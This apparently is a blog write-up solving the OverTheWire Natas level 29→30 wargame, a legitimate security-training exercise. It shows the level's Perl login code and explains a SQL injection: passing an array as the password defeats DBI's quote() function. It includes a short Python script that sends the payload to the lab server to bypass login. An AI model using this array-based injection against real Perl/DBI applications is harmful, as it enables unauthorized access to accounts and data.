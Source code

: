 ```yaml
---
layout: post
title:  "Natas Level 29 → Level 30"
date:   2021-06-08 01:21:40
categories: ctf wargames web-security
tags: wargames ctf overthewire web-security
series: "OverTheWire: Natas"
excerpt: Careless camel code causes critical conundrum
mathjax: false
---
```


## Level Goal
Excluding the URL and username, the Level Goal section is blank for the Natas ctf.


## Solution
Logging into the natas30 site we see a form to allow us to log in and a link to the source code. Let's look at the source code.

```perl
if ('POST' eq request_method && param('username') && param('password')){
    my $dbh = DBI->connect( "DBI:mysql:natas30","natas30", "<censored>", {'RaiseError' => 1});
    my $query="Select * FROM users where username =".$dbh->quote(param('username')) . " and password =".$dbh->quote(param('password')); 

    my $sth = $dbh->prepare($query);
    $sth->execute();
    my $ver = $sth->fetch();
    if ($ver){
        print "win!<br>";
        print "here is your result:<br>";
        print @$ver;
    }
    else{
        print "fail :(";
    }
    $sth->finish();
    $dbh->disconnect();
}

print <<END;
```

Looks like Perl uses quote to sanitize inputs. Let's see if there are any weaknesses with this function.

A quick search of **dbh quote vulnerability** on DuckDuckGo returns [this post](https://security.stackexchange.com/a/175872) on Stack Exchange. It appears that the quote does not know how to handle an array being passed to it. The post provides the following example Python code:

```python
def vuln(url):
    params={"username": "valid_username", "password": ["'lol' or 1", 4]}
    print(requests.post(url, data=params).text)
```

Let's create our own Python script and incorporate this. 

```python
#!/usr/bin/env python
import requests
from requests.auth import HTTPBasicAuth

password = 'w------------------------------e'
session = requests.Session()

auth = HTTPBasicAuth('natas30', password)
url = 'http://natas30.natas.labs.overthewire.org/index.pl'
data = {'username': 'natas30', 'password': ["'lol' or 1", 4]}
resp = session.post(url=url, auth=auth, data=data)

print(resp.text)
```

The password for the next level is towards the bottom of the output.